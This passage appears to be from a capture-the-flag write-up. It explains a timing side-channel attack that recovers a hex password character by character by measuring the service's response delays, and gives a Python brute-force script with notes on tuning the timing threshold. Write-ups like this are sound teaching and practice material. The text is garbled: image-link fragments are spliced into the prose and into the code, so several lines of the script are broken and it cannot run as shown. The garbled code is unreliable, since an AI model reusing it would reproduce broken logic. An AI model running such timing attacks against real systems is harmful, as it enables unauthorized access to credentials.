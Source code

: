 Since we have a 90 second window to guess, we can run a brute-force by looping through every hex character and observe the response delay using this flow.

![alt text](_attachments/initial-loop.png)

So if the observed response increased from the previous ones we find the first character. We append the character to the current guess and continue the loop 

> Contin![alt text](guess.png)-loop.png)

We can add this logic to the initial script to brute-force. The brute-force logic would look something like this:
```python
password = ""
max_time![alt text](initial-loop.png)9abcdef":
        # guess placeholder 
        guess = (password+c).ljust(8,"_")

        # time the response
        before = time.time()
        p.sendlineafter(b':', bytes(guess.encode()))
        recv = p.recvl![alt text](final-loop.png)after-before)

        # check if response exceeds the usual time
        if after-before > max_time: 
            max_time = max_time + 0.1
            password = password+c
            print("password:", password)
            break

recv = p.recvline()
print(recv)
p.close()
```
> Note that for max_time varies on the average connection response. during my tries it looks like the incorrect response would take `0.29` seconds and `0.39` seconds if it is correct. so i set the `max_time` to `0.35` initially. It is also important to increase `max_time` as it would increase the delay the more correct characters we have.
